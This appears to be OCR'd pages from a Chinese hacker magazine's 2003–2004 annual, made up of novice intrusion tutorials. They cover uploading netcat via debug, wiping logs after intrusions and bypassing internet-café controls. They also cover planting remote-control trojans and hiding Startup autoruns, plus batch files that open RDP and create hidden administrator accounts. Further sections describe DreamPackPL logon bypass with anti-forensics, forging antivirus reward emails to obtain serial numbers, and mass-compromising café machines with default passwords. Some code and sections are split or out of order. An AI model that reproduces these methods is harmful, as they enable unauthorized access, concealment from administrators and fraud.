然后在记事本中选择“编辑→全选”，点鼠标右键选择“复制”，在肉鸡的 cmdshell 中单击右键选择“粘贴”，这是你就会看到一条条代码飞速的向上移动着（这让我想到了《骇客帝国》的片头……）如图 3。


“传输”完毕后回到命令提示符状态，我们再用命令 r e n tvisGRAY nc.exe 将 nc.exe 复原。这样，一个 nc.exe 就成功上传了！我们可以在肉鸡的 cmdshell 中运行了（图 4）！


这种方法的优点可谓不言而喻，因为它直接利用已经得到的 shell 将文件以“命令”的形式一条条地“写”进肉鸡，所以不需要任何网络工具的支持，不必另开端口，没有进程，能穿过所有的防火墙。无论传输成功与否都没有任何日志或记录（管理员对你要写入文件的那个目录加审核的话就另当别论了），并且传输过程中不会被查杀。当然，这种方法也有缺点，就是它依赖对方的 Debug，但目前为止几乎还没有人对 Debug 做过限制。还有就是上传文件的速度有些慢，泡杯茶等几分钟吧！

（本文提到的工具 exe2bat.exe 光盘中有收录）


这几天在网上闲逛，发现了一个好东西——PC inspector File recovery（以下简称 PCF）。这就是国外一个牛人编的、能把格过盘的文件恢复的工具，当然也可以恢复删除的文件。

看看软件说明，里面提到：一般系统执行的文件删除只是将磁盘文件表那部分改变了，即只是逻辑删除，但磁盘簇中的数据还在。这个软件的原理就是重建磁盘文件表来恢复文件，想想我刚删除的系统日志，只觉一丝寒意从后背传来。

说时慢，那时快，我赶紧把 PCF 下载到本机。运行安装程序，一路 Next 即可，最后安装完后有三个文件。运行主程序会有个语言选择对话框，但那个 “Chinese(simplified)” 项我试了却不能用，郁闷！哪个高手帮帮忙，如图 1。

接着又有个 “Welcome to Drive Rescue” 窗口（图 2），我们只选第一项，其它项各位有兴趣的自己试试吧！PCF 接下来会扫描所有磁盘驱动器，把删除过的文件都“找”回来了（图 3）。

选择 “Logical drive” 框下的 “DISK_VOL2 on Windows drive D:”（我的 XP 装在 D 盘）。在 “Folders” 框中选 “Deleted\system32\config” 目录，在右边的框中可以看到删除过的日志文件，右击它，选 “save to...” 命令，在弹出窗口中选择目的文件夹保存（图 4）。要注意的是，选择的目的录不能与原文件所在的磁盘相同，因为会损坏磁盘簇，造成


## 文件出错！

至此日志文件已经被我们恢复了。想到以前我在入侵肉鸡后为方便把日志文件整个都删了（汗！），如果碰到有经验的网管那不死定了？相信各位菜鸟们都遇到过这样的情况（刚刚做的肉鸡很快就飞了）。但道高一尺、魔高一丈，下面笔者介绍两种彻底删除日志的方法：

- 不要完全删除日志文件，比如用日志清除工具cleaniislog或用国产的elsave.exe，这两种工具只清除日志的一部分，所以不可用工具恢复的。
- 根据恢复删除文件的原理来改变其它文件的磁盘簇的位置，以覆盖日志文件磁盘簇，从而达到彻底删除日志的目的。比如执行磁盘碎片整理程序，或者高手可在原日志文件磁盘簇上写其它数据覆盖原文件。


好了，本文没有任何技术可言，只是给那些像我一样的菜鸟提个醒，入侵之后一定要擦干净脚印！
(本文提到的PC inspector File recovery光盘中有收录)


## 披挂同学又——
### 愁种子

我常去的网吧是本市区唯一拥有Win2K系统的网吧，对于我等正急待成长的小鸟来说，怎能错过。我也算是老顾客了，在这三年多的时间里，先后更换了方竹、美屏、日龙等管理软件，但都有个通病——就是在出现桌面后才加载管理软件。于是我等他出事者就可在出现桌面时，迅速调出任务管理器把管理软件的进程结束掉，这样就可以免费上网了。但近来却更换了最新版的万象管理系统，和以前不一样，万像在加载安全策略前就已经加载了，成功登录管理系统后，又会默认以客人身份登录系统。要解除它，看来还得花一番心思了！

网吧的全部客户机都转换为NTFS格式了，防删除、禁下载，并且连CMD这个最可爱的东东也删掉了！根本进不了CONFIG这个文件夹。啊！我这里还有个在线的CMD，如图1（http://dragon-2me.go.nease.net/net.htm上有些常用的在线工具，大家可以拿去使用）。

执行命令net user Administrator dragon，试图将Administrator的密码改过来，但大失所望，这又是权限的限制。没办法，还是请出老帮手X-Scan来吻她一遍吧！仍以为是梦，如图2。每台机器都有一个名为USER**的管理员空口令，这还不简单，用DameWare连接自己，如图3。

执行命令net user Administrator dragon，把Administrator的密码改为dragon，退出管理系统就可密码dragon以管理员身份登录了，依然是免费的哦！
以上就是笔者解除万象的一小段经历。
(本文提到的以下软件光盘中有收录：X-Scan、DameWare)


# 傻瓜黑客

## 黑客X档案 2003

## Windows 2003 自动登录也简单

在Windows2000中自动登录的实现很简单，进入“控制面板→用户名和密码”，把“要使用本机，用户必须输入用户名和密码”选项取消，确定后系统便会提示输入自动登录的用户名和密码，设置好后便可以实现。但在Windows server 2003的控制面板中没有用户和密码这一项，只能在计算机管理工具中进行用户和密码的设置，而且也没有自动登录的选项，让人感到很是不方便。接下来就让我们动动脑筋，让Windows server 2003也能自动登录吧！

### 一、修改注册表法

单击“开始→运行”，在运行对话框中输入Regedit打开注册表编辑器，找到HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon，在右边的窗口中点击右键，选择菜单“新建→字符串值”，取名为AutoAdminLogon，并把其值设为“1”（图1）。

接下来创建一个名为“DefaultUserName”的字符串值，编辑其键值为你准备用于自动登录的账户名称。最后再新建一个名为DefaultPassword的字符串，将其值设为登录时所用的密码。重新启动Windows后即可实现自动登录。


> 注意：如果是在局域网环境下，并且需要登录到域服务器，则还需要再添加一个名为“DefaultDomainName”的字符串值，并修改其键值为你登录的域名称。

### 二、工具软件法

我们也可借助于软件来实现这个功能，那就是大名鼎鼎的Tweak UI。此软件在Win98中就开始使用了，是微软自己开发的，用它可实现许多需要修改注册表才能完成的事情，实现Windows的自动登录就是它的功能之一。

该软件的下载地址为http://www.mydrivers.com/tools/dir0/d234.htm(光盘中也有收录)，下载后用右键点击tweakui.inf文件，在弹出的菜单中选择“安装”即可。安装完成后会发现在控制面板中多出了一个“Tweak UI”选项。执行该选项，在弹出的面板中选择“Logon”选项卡，然后勾选“Log on automatically at system startup”，输入你的用户名和密码，然后点击“确定”便大功告成了。

值得一提的是，Tweak UI这个小软件对于设置Windows有着极大的帮助，大家不妨用用看。

### 三、修改设置法

单击“开始”菜单中的“运行”，在“运行”对话框中输入control userpasswords2，回车后会出现“用户账户”管理窗口。在该窗口中把“要使用本机，用户必须输入用户名和密码”前面的“√”去掉，接下来同时按下Ctrl+Shift+A组合键，打开“自动登录”对话框（图2），然后就可根据自己的需要设置自动登录时使用的用户账户和密码，最后单击“确定”就可以了。

或许有的用户不希望Windows server 2003自动登录，毕竟安全性得不到保障，但对于其开机后要求按Ctrl+Alt+Del才能出现登录窗口比较讨厌。其实，我们可让这家伙伴底离开我们，方法是：进入“控制面板→管理工具→本地安全策略”，找到“本地策略→安全选项”，在右侧窗口中双击“交互式登录：不需要按Ctrl+Alt+Del”，将其设置为“已启用”（图3），下次启动便直接进入到登录窗口了，是不是让人轻松了许多？

（本文提到的Tweak UI光盘中有收录）

## 一次简单的入侵

偶最近搞了一次小入侵（提前声明，是在局域网中，由于某种原因，不能上宽带），结果让偶有点吃惊不少，出乎偶的预料。

偶是一个大菜鸟，虽然《黑客X档案》读了不少，但还是编不出一个小小的黑软来，使用的所有工具都是别人的。首先使用偶最喜欢的溢出软件RPC GUI.exe进行溢出尝试（图1），效果如图2。得到了一个shell，现在想干什么都可以了。

* 独钓寒江雪 *


黑客X档案2003 2004年合订本(下册)

# 傻瓜黑客


现在就激活他的guest账户，再添加其为计算机管理员，如图3。


然后再开一个命令行，进行大家都熟知的IPC$连接，上传文件。偶上传的是system32.exe（一个远程控制服务端，偶改名了），用at命令启动那个东西，仔细看图4，在18:14启动，时间是按24小时制的（偶以前犯过6:14启动的国际性错误）。


远程控制服务端已传上去，想干什么那就随你了。问题出来了，走的时候怎么做的？抹揉日志自不必说，是不是还要停掉guest帐户呢？以前偶看过的书上都是这么说，我也这么做了（图5）。

就用这种简单的方法，偶控制了局域网的绝大部分机器（因为绝大部分都没有装防火墙、杀毒软件），当时真有点沾沾自喜呢！

可没过两天，“灾难”突然发生了，局域网中的其它人怒气冲冲地跑过来，指着偶怒吼“是不是你干的？”。偶当时没反应过来，还不知是怎么一回事（他们直接来找偶，是因为他们看见偶这几天在“废寝忘食”地钻研“计算机病毒”。偶被吓傻了，赶忙说“不是，不是……”

到底怎么回事？后来偶才知道，局域网不能共享了（也就是不能互相访问），如图6。出现一个莫名其妙的登陆框，而且大部分都不能访问了，这是怎么回事啊？


具体原因我也不知道，不过有一点很明确，和偶这几天的人侵有关。可仔细一想，偶并没做什么不当的事啊！而且人侵过程绝对“经典”，不会出什么差错。

一次偶然的机会，偶发现停了自己机器的guest帐户后也不能共享了，这才意识到与guest帐户有关。到底guest帐户和共享有什么关系呢？偶在许多机器上试来试去，刚开始的结果令人吃惊与遗憾，有的机器停掉guest帐户后不能共享了，而有的却可以，为什么呢？

最后研究的结果是：点击“开始→设置→控制面板→管理工具→本地安全策略”，打开本地策略，单击本地策略下的“用户权利指派”（图7），大有没有注意到“从网络访问此计算机”右边应该有个“Everyone”。


接着打开本地策略下的“安全选项”（图8、图9）。下边的guest帐户状态应是“已启用”，“允许匿名SID/名称转换”处于“不适用”时，管理员帐户和guest帐户状态会同时处于“不适用”，此时也无法被访问（当有登陆框时，net view命令不能显示其共享资源），所以应该启用它。


本地帐户的共享和安全模式为“经典-本地用户以自己的身份验证”时，有时也不能被访问。当同时满足“从网络访问此计算机”右边有“Everyone”、guest帐户状态是“已启用”且本地帐户的共享和安全模式为“仅来宾-本地用户以来宾身份验证”时，共享一定能被访问，否则就是访问者机器的设置有问题。不过，有时也会出点意外，还请各位自行研究！

人侵时一定要注意guest帐户（该开该关，随机应变），有时小事也会变成大事的。以上实属个人观点，如有谬误，还请大家指正！


# 傻瓜黑客

## 关于“启动”的新发现

刘曦宇

（本文在 Win2k / XP 下测试通过）

木马在开机后自动运行，这是要具备的基本属性。我不知道大家都用什么方法，但猜想大部分人都不去碰“启动”菜单的，因为这种方法太容易曝光了。最近小生发现通过“启动”菜单照样能提高隐蔽性，一起来看吧！

大家知道，在“开始→程序”中有个“启动”菜单。这个菜单指向两个地方：
1.C（或其他系统盘）:\Documents and Settings\All Users\「开始」菜单\程序下的“启动”文件夹。
2.C:\Documents and Settings\当前用户的用户名\「开始」菜单\程序之下的“启动”文件夹。
因为一般用户修改的都是自己的文件，与 All Users 无关，所以在修改“开始→程序→启动”菜单时，改动的都是自己的，合情合理！

我的发现就在于如此：如果把自己帐号下的“启动”文件夹移动位置，会有什么结果呢？我试验后发现：“启动”菜单找不到该用户的个人“启动”文件夹，被迫单对单指向 All Users 下的“启动”文件夹。然而这不是重点，重点是：个人的“启动”文件夹虽然与“启动”菜单脱离了联系，但它并不失效！即向移了位后的个人“启动”文件夹内加入文件，不会显示在“启动”菜单里，但在开机之后仍能自动运行！

下面给大家举个例子。用户名为 SHARK，系统盘为 C:\，需要自动运行的文件为 slave.exe。我们先以 SHARK 登陆，打开“C:\Documents and Settings\SHARK\「开始」菜单\程序”文件夹，把“启动”文件夹更名为“QQ31331500”，将其剪切至 D:\ 下。然后我们在“D:\QQ31331500”中放入“slave.exe”文件。重启计算机，slave.exe 自动运行了！

是不是很简单？如果把“QQ31331500”文件夹藏得更深一些，隐蔽性就更强了。

有一点不得不说，那就是在 NTFS 分区、管理员权限以下的用户默认情况下无法修改“自己的”启动菜单，有可能被发现！

> 小提示笔者开始以为可把“启动”的特殊功能复制到其他文件夹，但试了 N 次后不行，只有剪切可以。53

## 3389 完全研究 XP 篇

吴昊

虽然关于 3389 的文章多如牛毛，但关于 XP 的 3389 方面的问题确实没几个人能说明白（高手们都不屑一说）。笔者通过一段时间的研究，解决了一些，于是将总结出的一些心得与大家共享。

**XP 3389 的缺点：**
▲要用终端连接的时候，主机一定要处在注销状态，即要么是物理接触，要么是远程连接，两者不可得兼；
▲连接时不能用 administrator 帐号；
▲最烦人的是：不管你是用 root.vbs 还是用 Windows 无人值守安装的几行代码，最后都以失败告终（想当年在 Win2k 上可是百试不爽）。

### 解决方案

经过几番思考，加上从电脑杂志里看到的一篇远程桌面的文章，顿时茅塞顿开！原来 XP 专业版安装后，Terminal Services（即 3389 服务）是默认启动的（图 1）。


用 netstat -an 查看本地的端口状况，没有打开 3389 端口（图 2），为什么呢？


原因就在这里，打开“控制面板→系统”，选择“远程”选项卡，在“远程桌面”一项中有个“允许用户远程连接这台计算机”选项（图 3）。只要将此选项打上勾，这个机器的 3389 端口就会打开，不信？再用 netstat -an 看看吧（图 4）！
呵呵，知道了吗？给 XP 开 3389 就是用这种方法。
那怎样在命令行下打开呢？这是一直困惑我的地方，我想到是注册表。于是我把注册表导出，然后用上述方法打开 3389 后，再导出一次，接着使用对比注册表的软件进行对比。

对比后发现：只要把注册表 [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server] 这个位置下“fDenyTSConnections”数值改为00000000，“TSEnabled”的值改为00000001就 OK 了！
为了方便，笔者还编了一个批处理，内容如下：
```
@echo REGEDIT4 > c:\zm.reg
@echo. >> c:\zm.reg
@echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server] >> c:\zm.reg
@echo "fdenytsconnections"=dword:00000000 >> c:\zm.reg
@echo "TSEnabled"=dword:00000001 >> c:\zm.reg
@regedit /s c:\zm.reg
@del /y c:\zm.reg
@net start termservice
```

# 傻瓜黑客


第一部分不用说了，就是修改注册表的键值，关键是最后一句shutdown -l，意思是注销计算机。不要忘了，XP注销后才能让远程计算机连接。不过XP给我们带来了一个好处：不用再重启计算机了。

### 进一步完善

虽然不用重启计算机，但连接时因为是注销状态，所以能看见你建立的用户名，同时还能看见你运行的程序的个数，所以非常容易被发现（图5）。

\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINLOGON\SPECIALACCOUNTS\USERLIST >> c:\zm2.reg
@echo "minmins"=dword:00000000 >> c:\zm2.reg
@regedit /s c:\zm2.reg
@del /y c:\zm2.reg

第一部分是建立一个用户名为minmin$、密码为89412的用户，第二部分是让这个用户在登陆面板中隐藏。大家看图6，“minmin$”没有了吧？这样，被发现的几率就会更小了。


我想到了《黑客X档案》2004年第3期sohu的一篇文章。里面谈到如何让帐户不在XP的登陆界面中出现，根据该文我写了一个批处理用来隐藏账户：


## 总结

以上代码都测试成功，都可在命令行下完成，并且XP的主机无需重启即可打开3389。怎么样？心动不如行动，快去试试吧！

```
@net user minmins$ 89412 /add
@net localgroup administrators minmins /add

echo REGEDIT4 > c:\zm2.reg
@echo. >> c:\zm2.reg
@echo [HKEY_LOCAL_MACHINE
```


## Win2K/XP用户密码破解及防范

大家都知道，Windows NT以后的操作系统都有很完善的权限保护，没有Administrator（管理员）权限的用户连应用程序也不允许安装，更不用说改变计算机设置了。
万一不小心忘了密码，就只有忍痛重装Windows了！不过凡事不是绝对的，如果你是Windows 2000的用户，可以del C:\winnt\system32\config\sam，再进入系统密码为空！如果你是Windows XP用户，可以在“带命令行的安全模式”下利用Net命令（“|”符号后为注释）：


DreamPackPL，它可绕过Windows的身份认证，在不知道用户密码的情况下利用它可登陆系统；或者在登陆前就以管理员的权限运行应用程序。更厉害的是，在Windows 2000下，DreamPackPL居然能访问EFS加密过的文件！有了它，入侵别人的计算机后，就神不知鬼不觉了！

```
net user 用户名 密码 /add
' 新建用户
net localgroup administrators 用户名 /add ' 把刚才新建的用户加入管理员组里
```

如果这是我们自己的计算机，那没问题！如果是在入侵别人的机器呢？更改别人的密码，不是不打自招吗？显然旧的方法不能用于入侵！

### DreamPackPL登场

现在，有个来自波兰的小程序——

光仔

| DreamPackPL个人资料: |
| :--- |
| 最新版本：2004.06.10 |
| 软件大小：75kb |
| 软件性质：免费 |
| 软件语言：英文 |
| 适用平台：Windows 2000/XP |
| 官方网站：http://www.d--b.webpark.pl/ |

下面笔者详细给大家介绍利用DreamPackPL破解Windows 2000/XP用户密码的全过程。

| 需要准备的东西： |
| :--- |
| 1.DreamPackPL； |
| 2.刻录机； |

黑客X档案2003-2004年合订本(下册)

175


# 傻瓜黑客

- 3. 刻录盘；
- 4. 刻录软件；
- 5. Windows 2000/XP的安装光盘。

下面首先认识DreamPackPL酷酷的界面：

从图1中可见，程序的界面十分简洁，只有三个按钮：Install、Create CD、Extract，所有操作过程并不复杂！


图1

下面给大家阐述一下这三个按钮的作用：

**Install**：安装DreamPackPL，需要管理员权限。按下“Install”后会询问是否安装，选择“是”后会再询问是否重启，重启后完成安装。

**Create CD**：制作Windows 2000/XP破解CD的镜像文件。需要Windows 2000/XP的安装盘，不能使用多合一的安装盘。按下“Create CD”后，出现图2所示的窗口。如果你有多个光驱，就要在“CD-ROM Drive”处选择插入安装盘的光驱，然后按下“Make ISO CD image”制作Windows 2000/XP破解CD的镜像文件。

**Extract**：释放SFCFILES.DLL。SFCFILES.DLL是程序最核心的部分，下文我会讲到它的作用！按下“Extract”后出现图3的窗口。点击“保存”，将SFCFILES.DLL保存，千万不要为SFCFILES.DLL改名！


图2


图3

## 实战 Windows 2000/XP 登录密码！

1. 假设被入侵计算机使用的是双系统（Windows 98与Windows 2000/XP），而且都安装在FAT 32分区。

第一步，在Win98下利用DreamPackPL释放SFCFILES.DLL，在X:\windows\system32\下把原SFCFILES.DLL重命名为SFCFILES.LLD（X为你的系统安装盘符，以下雷同），再把释放出来的SFCFILES.DLL复制到X:\windows\system32\。

> 注意：不要把原来的SFCFILES.DLL删掉了，这对反侦查很重要！简单的说，就是不容易被查出曾经使用过DreamPackPL入侵别人的计算机。

第二步，重启后进入Windows 2000/XP即可！

2. 假设被入侵的Windows 2000/XP是Fat 32分区。

第一步，利用MS-DOS启动盘引导系统，利用REN命令把原来的SFCFILES.DLL重命名为SFCFILES.LLD。格式为：ren 原文件名 目标文件名，例如：ren SFCFILES.DLL SFCFILES.LLD。

第二步，再利用Copy命令把释放出来的SFCFILES.DLL复制到X:\windows\system32下。格式为：copy 原文件绝对地址 目标文件绝对地址，例如：copy c:\SFCFILES.DLL c:\windows\system32\SFCFILES.DLL。

第三步，重启后进入Windows 2000/XP即可！

3. 假设被入侵的Windows 2000/XP是NTFS分区。


图4


图5

第一步，制作好破解光盘。运行DreamPackPL.exe，将Windows 2000/XP安装盘放入光驱，按“Create CD”制作好破解光盘镜像（图4），然后用刻录软件把镜像刻录成光盘。

第二步，为破解做准备（关键）。

（1）用刚刚刻录制作好的光盘引导电脑，这时会出现Windows 2000/XP安装界面。按R键进入“故障恢复控制台”（图5）。

（2）随后安装程序会显示所有已安装的Windows系统，使用数字键选择要进入的系统，然后直接按回车。

（3）当需要输入管理员密码时，只需直接按下回车就可跳过这一步（漏洞啊！）。

现在，我们已进入命令行模式了。输入cd system32命令进入System32文件夹，然后将该文件夹下的sfciles.dll文件重命名为sfciles.lld。

接着从光盘中的i386目录下复制文件pinball.ex_到system32文件夹中，并重命名为sfciles.dll。命令为copy X:\i386\pinball.ex_ sfciles.dll。

至此，前期工作已经完成，取出光盘，输入exit命令退出控制台，然后重启电脑即可。

## 实战应用

重启电脑后到达欢迎屏幕，会出现“WinNT Unlimited”窗口，为了讲解方便，我给大家举几个事例！

### 事例一、忘记了管理员密码

如果你忘记了管理员的帐户密码，可在“WinNT Unlimited”窗口中点击“Details”按钮，这时就会打开“用户帐户”窗口，然后就可重新设置密码了！如图6。


图6

### 事例二、当需要更高权限

如果你是受限制用户，当需要安装软件或更改系统设置时，想在不惊动管理员的情况下完成你的工作。可以这样操作：点击“WinNT Unlimited”窗口中“Local accounts list”项下的“《SYSTEM PRIVILEGES》”，然后点击“Spirit mode”按钮（图7）。

这时，系统将会以一个并不存在的、名为“SYSTEM”的帐号登陆。由于是不存在的账号，所以不用担心使用后会被察觉。同时，桌面上还有一个“Change Desktop”工具栏按钮（图8），当完成任务后可点击该按钮返回欢迎屏幕。

如果需要恢复以前的输入密码方式，则可在“WinNT Unlimited”窗口中重新选定该用户，然后选中“Logon password check”复选框并“确认”。


图7


图8

注意：如果在“Local accounts list”下选择了其他账户，并取消对“Logon password check”项的勾选。重启电脑后，你就会以该用户的身份直接登录系统而不需要输入密码。在这种情况下，这个账户的所有文件（包括使用过EFS加密的文件（仅限Windows 2000）），你都可以进行任意操作。

### 事例三、当你需要不登陆，而直接运行程序


图9

当你需要不登陆而直接运行程序时，点击“WinNT Unlimited”窗口中的“(q)”按钮，这时就会显示出多个系统常用的工具（图9）。

如“Regedit”可打开注册表编辑器；“Console”可打开命令提示符；“Task Manager”可打开任务管理器；“Sysedit”可打开系统配置编辑器；“Notepad”可打开记事本；“Other”可运行你选择要运行的程序。

基本上所有的Windows应用程序都能在欢迎屏幕下直接运行。但要注意的是，使用这些功能时，不能取消对“Logon password check”复选框的选择。

## 黑客现场反侦察

因为每次重启电脑或注销用户后，DreamPackPL的界面都会出现，为了不让别人察觉，在进行必要的修改后，需要卸载DreamPackPL。

去除“WinNT Unlimited”窗口中“DreamPack”项的勾选，重启后“WinNT Unlimited”窗口就会消失！

如果之前替换SFCFILES.DLL文件时没有将原始文件重命名为SFCFILES.LLD，那么DreamPackPL会从系统文件的缓存中恢复该文件。如果这样做的话，SFCFILES.DLL文件的创建日期就会被修改，这样就容易被管理员发现系统曾经被人侵过。所以为了反侦察（不让管理员发现），我们在入侵前准备好反侦察工作，即把SFCFILES.DLL文件重命名为SFCFILES.LLD。这样，DreamPackPL在卸载时自动为你把SFCFILES.LLD重命名为SFCFILES.DLL（经本人试验，SFCFILES.DLL的创建日期和修改日期在入侵前后都没有发生变化）。

如果你禁用了Windows文件保护，自动卸载就会没法完成，需要手动进行！利用上面“入侵实例”的方法回到“故障恢复控制台”，或者在Win98下把破解用的SFCFILES.DLL删除（删除命令为del SFCFILES.DLL），把SFCFILES.LLD重命名为SFCFILES.DLL即可（删除和重命名操作均在X:\windows\system32\目录中进行）。

## 如何知道是否有人曾经利用DreamPackPL 入侵你的电脑？

在“控制面板”中打开“性能和维修”，再打开“管理工具”。运行“事件查看器”，点击“安全性”即可查看“审核策略”中所设定的审核项目的审核结果。如果发现有大量的错误日志，则说明可能有人使用过DreamPackPL入侵你的电脑。当然你必须在被人侵前启动“审核登录事件”才能查看日志！

启动过程如下：在“管理工具”中运行“本地安全策略”，依次点击“计算机配置→Windows设置→安全设置→本地策略→审核策略→审核登录事件”，双击“审核登录事件”，在“审核这些操作：”下把“失败”打上勾，再按“确定”即可。

## 如何预防别人利用DreamPackPL 入侵你的电脑？

1. 把你的Windows 2000/XP安装在NTFS格式分区上，利用NTFS格式分区的安全性保护好你的系统；
2. 在BIOS里设置直接由硬盘启动，并给你的BIOS设置一个密码，防止别人利用其他系统启动你的电脑；
3. 使用“SYSKEY”安全命令把系统加密。

“SYSKEY”安全命令可有效地增强你的系统的安全性。如果你的电脑是多人使用，其他人完全可通过破取他人的简单密码来进入系统，利用种种漏洞来获取管理员权限。有了syskey制作的加密软盘，你就可以完全放心使用Win2000和XP了。下面我们一起来实践“SYSKEY”安全命令的用法。

（1）双重密码保护的设置
①在开始菜单的“运行”中输入“syskey”，点击确定。然后在弹出窗口中点击“更新”。

②这里我们选择“密码启动”，输入一个密码，然后点击“确定”（图10）。


图10

这样做将使XP在启动时需要多输入一次密码，起到2次加密的作用。操作系统启动时在往常我们输入用户名和密码之前会出现窗口提示“本台计算机需要密码才能启动，请输入启动密码”。这便是我们刚刚创造的第一重密码保护。

（2）密码软盘的制作
①如果我们选择“在软盘上保存启动密码”，这样将生成一个密码软盘，没有这张软盘，谁也别想进入你的操作系统。当然，如果你之前设置了syskey系统启动密码，这里还会需要你再次输入那个密码，以获得相应的授权，这有点类似于我们在更改QQ密码时必须知道原来的密码。
② 然后系统会提示你在软驱中放入软盘，当密码软盘生成后会出现提示。
③ 再次启动系统，这时系统会提示插入密码软盘，如果不插入软盘就点击“确定”，系统是不会给你放行的。
插入密码软盘，根据不同账户输入不同的密码。同时如果你愿意，密码软盘中的密匙文件是可以复制到其他软盘上的。
（3）去除密码软盘的高安全性要求

假如有一天你对操作系统的安全性要求不那么高了，也厌烦了每次进入系统都要插入软盘，怎么办？选择“在本机上保存启动密码”即可。当然，进行这一步操作你必须要有存有密匙的软盘。


现在，网络上病毒泛滥，没一个好的杀毒软件是不行的，本着支持正版的精神，本人一直想得到一个正版杀毒软件。可是价格好贵，只好自己想办法啦！
大家都知道，现在的杀毒软件公司都有个病毒上报获奖活动，你第一个报病毒就会获得正版的杀毒软件。hoho！我们可以利用这个……
偶最喜欢江民了，就先研究一下他吧！去江民的网站找到病毒上报获奖名单看看（图1），他的奖励是直接把序列号发到你的邮箱，比较方便！

标题就用“re：病毒上报”，收件人填上自己的邮箱，邮件内容就把在那个论坛看到的获奖信息复制进去，然后在下面附上图4中的落款内容（包括公司信息之类的内容），和真的一样吧！如图5。


笔者曾在某个论坛看到有人说自己上报江民获奖了，还把信件贴出来了。嘿嘿，有样稿了，如图2。


我们可照样画葫芦，先看看江民给自己的回信（图3），当然是没获奖啦！


填写完毕后就发送给自己。自己收到这封信后，点击“附加原文转发”，转发的地址填写在论坛中看到的领奖邮件地址。几天后，邮箱就收到江民寄来的正版序列号（图6）！


小技巧：
江民的病毒发奖邮箱应该是有一定规律的（如数字规律），比如这次是c01@******.com，下次可能就是c02@******.com，以此类推！金山也有类似规律，只是收奖品要写自己的真实地址，而且金山的奖励信箱是员工名字的拼音，如叫雷军，那邮箱就是leijun@******.com。瑞星的回信信箱都是一个，但无论获不获奖都要你提供地址信息等，不推荐使用！

对于时刻奋战在黑各战场上的黑迷来说，谁不想养一大群又大有肥的肉鸡呢！我是菜鸟一个，曾经为了一只肉鸡连续奋战七、八个小时，可近在成功弄到一台肉鸡后，顾腹摸摸，结果招来一大堆肉鸡，一下子我的鸡圈里都快容不下了。下面我就将详细过程一一道来。

## 锁定目标

事情还得从入侵一台网吧服务器开始，听说楼下开了一家新网吧，抱着凑凑热闹的心理，我抽空进去瞧了瞧，走进网吧一看，还蛮大的。在这里上网感觉还不错，速度很快。要是把主机搞下来当肉鸡肯定不错，而且刚装完系统可能会有什么漏洞，于是我马上记下其IP，然后匆匆下机。

## 黑客侵略战

回到家里，我打开X-Scan，输入IP就开始找漏洞，过了一会儿，结果出来了，果然被我扫了一个弱口令，结果如图1，看来这台肉鸡逃不掉了。


根据扫描报告，发现对方开放了25、80、1433和7070端口。看来还得先开Telnet，让我来帮他开，马上请出opentelnet，其使用方法如下：

```
opentelnet.exe \\IP user password telnetype telnetport
```

结果如图2，立刻连上去，先输入以下命令加个用户吧！
net user cnstar 1314520 /add
net localgroup administrators cnstar /add
既然是养肉鸡，当然要开3389才行。接下来就是给它开3389，这个方法很多，经常看《黑客档案》的读者都知道，这里我用的是zzzevazzz的rots.vbs。切换到本地命令行下输入：


```
cscript ROTS.vbs *.*.*.211.123 cnstar 1314520 3389
```

这里我没有选择让对方自动重启，因为此时对方肯定在电脑前，还是谨慎点好。执行结果如图3，说明已经成功开启了终端服务，剩下的只好等对方重启了。看一下时间，已经凌晨三点多了。关上电脑立刻睡觉。


睡醒后第一件事便是看对方有没有重启。打开桌面连接器，结果成功连上了，如图4。
呵呵，肉鸡到手了！现在马上给它装个后门，要知道这肉鸡可来得不易，万一被发现就完了。至于加后门的过程这里就不说了。完成后我将肉鸡的情况探查一番，结果在“开始”菜单里发现了超级兔子魔法设置，看到这个你想到什么？当然是看他有没有使用自动登陆，打开后发现他还真使用了这个功能。
马上下载星号查看器，成功弄到了管理员帐号和密码。嘿嘿！好高兴，你知道这意味着什么吗？只听某位黑兄开口了：“不就是#！@$$@$%&**…”，其实不是你们平时想的那简单。在讲它的作用前，我先介绍一下我们本地网吧的基本情况。


## 背景知识

大家对我们本地的网吧系统不是很熟悉，这里给各位简单介绍一下，对后面的部分会很有用。我所在城市有家电脑技术公司，专门为网吧提供技术服务，整个地区的网吧99%以上都是到这家公司拷盘，因此所有设置都是一样。而且据我长时间观察，绝大部分网吧老板和服务员都是超级大菜鸟，从来不敢去动主机的任何设置，因为一不小心就会造成整个网吧上不了网，半天生意就没了。

## 顺藤摸瓜

看过上面的介绍，大家该想到那个东东的不寻常意义了吧！还等什么，马上请出superscan3.0。
只见Superscan快步走上台接过任务便立刻开工了，结果如图5。
我们要扫的是开放了3389和7070的端口。
这里解释一下，7070端口是由于网吧主机上装了网络神探后打开的特定端口，因此只要开了这个端口那基本上就是网吧了。接下来打开3389连接工具，随便填一个符合条件的，输入默认用户名和密码，很顺利就进去了。一连试了10多台，绝大部分都进去了，真的好爽啊！

## 筛选肉鸡

有这么多肉鸡，全养下来当然不行，我没那个时间，也没那个精力。所以接下来就要把精品肉鸡挑选出来，挑选的标准当然是配置和速度。至于在线率，因为是网吧，在线率都是很高的，所以不用考虑。瞧瞧图6这台怎么样？


## 肉鸡保卫战

一下子飞来这么多现成的肉鸡，高是太高兴了，可烦恼也来了，又要打一场肉鸡保卫战。本来选用动龄的IIS后门（详见《X档案》2004年第4期），可在实际操作过程中却出现错误，总连接不上，研究很久也没结果，后来便改用通过修改注册表来建立隐藏的超级用户。具体过程如下：

- 1. 在命令行下执行命令net user cnsar$ 1314520 /add(这里的用户名最后一定要有“$”，因为这样在命令行下用net user命令查看用户时，带有“$”符号的不会显示出来)。

- 2. 打开注册表编辑器，展开HKEY_LOCAL_MACHINE\sam\，选中这个分支下的sam项，选择“编辑→权限”，在弹出的权限设置中点击“添加”，将我登录时的帐户添加到“安全”栏内。这里我是以Administrator的身份登录的，所以就将Administrator加入，并设置权限为完全控制。

